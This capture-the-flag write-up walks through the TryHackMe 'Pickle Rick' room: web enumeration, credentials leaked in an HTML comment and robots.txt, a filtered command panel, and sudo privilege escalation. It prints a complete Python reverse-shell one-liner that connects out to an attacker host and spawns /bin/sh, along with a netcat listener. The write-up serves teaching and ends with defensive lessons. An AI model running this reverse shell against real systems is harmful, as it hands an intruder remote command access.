

# Pickle Rick Writeup

# Overview

| Field | Details |
| --- | --- |
| **Platform** | TryHackMe |
| **Room** | Pickle Rick |
| **Difficulty** | Easy |
| **Category** | Web Exploitation / Linux Privilege Escalation |
| **Goal** | Find the three secret ingredients |

# Reconnaissance

## Nmap Scan

```bash
nmap -sV -O MACHINE_IP
```

Identified the open services running on the target, establishing the attack surface.


Nmap scan results

## Web Enumeration

Browsed to the target's web root:

```bash
http://MACHINE_IP
```

A Rick and Morty themed webpage appears.


Target webpage

**Source code review** revealed a hidden developer comment containing a username:

```html
<!-- Username: R1ckRul3s -->
```


Page source comment

**Directory brute-forcing** with Gobuster:

```bash
gobuster dir -u http://MACHINE_IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```


Gobuster results

Checked `robots.txt`:

```bash
http://MACHINE_IP/robots.txt
```

Contents disclosed a password:

```
Wubbalubbadubdub
```

# Initial Access

Credentials discovered:

| Username | Password |
| --- | --- |
| `R1ckRul3s` | `Wubbalubbadubdub` |

Logged in at `/login.php`, which grants access to a command execution panel.


Command panel access

Listed files:

```bash
ls -la
```


Directory listing

The `cat` command was blocked by input filtering.


Filtered command

Confirmed `python3` was available on the server and used a Pentestmonkey-style reverse shell to bypass the filter:


Python availability check


Reverse shell reference

```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACK_MACHINE_IP",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Started a listener on the attack machine before triggering the payload:

```bash
nc -vlnp 9999
```


Reverse shell caught

# Ingredient 1

Located and read the first ingredient file, then followed the clue left in `clue.txt` toward the next one.


First ingredient


Clue file

# Ingredient 2

Navigated to the second ingredient's location and read its contents.


Path to second ingredient


Second ingredient

# Privilege Escalation

Checked `sudo` permissions for the web server user:


Sudo permissions check

Misconfigured `sudo` rights allowed commands to run as root without a password, so a root shell was spawned directly:


Root shell spawned

# Ingredient 3

Navigated to and read the third and final ingredient, completing the room.


Path to third ingredient


Third ingredient

# Attack Flow



# Summary of Concepts

- **Enumeration** — Nmap scanning identified the exposed services running on the target machine, helping establish the attack surface.
- **Source Code Inspection** — Inspecting the webpage source revealed hidden developer comments containing valid credentials.
- **Directory Bruteforcing** — Gobuster was used to discover hidden files and directories such as `/login.php` and `/robots.txt`.
- **Robots.txt Information Disclosure** — Sensitive information was improperly exposed inside the `robots.txt` file, leading to password discovery.
- **Remote Command Execution** — The web application provided a command execution interface vulnerable to command injection, allowing arbitrary Linux commands to run on the server.
- **Command Filter Bypass** — Although the `cat` command was blocked, alternative utilities were used to read sensitive files.
- **Linux Privilege Escalation** — Misconfigured sudo permissions allowed the web server user to execute commands as root without requiring a password, resulting in full administrative access to the machine.

# Tools Used

- Nmap
- Gobuster
- Netcat
- Python3 (reverse shell)
- Browser Developer Tools

# Lessons Learned

- Never leave credentials or hints in HTML comments or robots.txt.
- Input filters on command panels are easily bypassed with alternative interpreters (python3, perl, etc.) — command execution features should not be exposed at all.
- Audit `sudo -l` regularly; NOPASSWD entries on interpreters or shells are equivalent to full root compromise.